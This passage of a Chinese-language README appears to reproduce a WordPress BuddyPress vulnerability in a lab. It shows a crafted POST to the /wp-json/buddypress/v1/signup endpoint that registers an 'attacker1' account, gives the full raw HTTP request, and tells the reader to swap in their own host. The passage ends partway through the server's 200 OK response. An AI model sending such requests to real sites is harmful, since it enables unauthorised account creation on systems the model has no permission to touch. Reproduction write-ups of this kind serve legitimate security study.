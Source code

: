    ![1747897930858](image/readme/1747897930858.png)
   - 点击`send to repeater`，构造 POST 请求，发送到 `/wp-json/buddypress/v1/signup`。
   - 请求体如下：
     ```json
     {
       "user_login": "attacker1",
       "user_email": "attacker1@163.com",
       "user_name": "attacker1",
       "password": "attacker1"
     }
     ```
    - 最终构造的请求包：
        ```
        POST /wp-json/buddypress/v1/signup HTTP/1.1
        Host: 192.168.20.12:10459
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
        Accept: */*
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
        Content-Type: application/json; charset=UTF-8
        Content-Length: 112

        {"user_login": "attcker1", "user_email": "attacker1@163.com", "user_name": "attacker1", "password": "attacker1"}
        ```

    - 替换 `Host` 为自己的 IP 和端口。
    - 得到回显:
        ```
         HTTP/1.1 200 OK
         Date: Thu, 22 May 2025 03:48:36 GMT
         Server: Apache/2.4.18 (Ubuntu)
         X-Robots-Tag: noindex
         Link: <http://192.168.20.12:10459/wp-json/>; rel="https://api.w.org/"
         X-Content-Type-Options: nosniff
         Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
         Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
         Allow: POST
         Content-Length: 280
         Content-Type: application/json; charset=UTF-8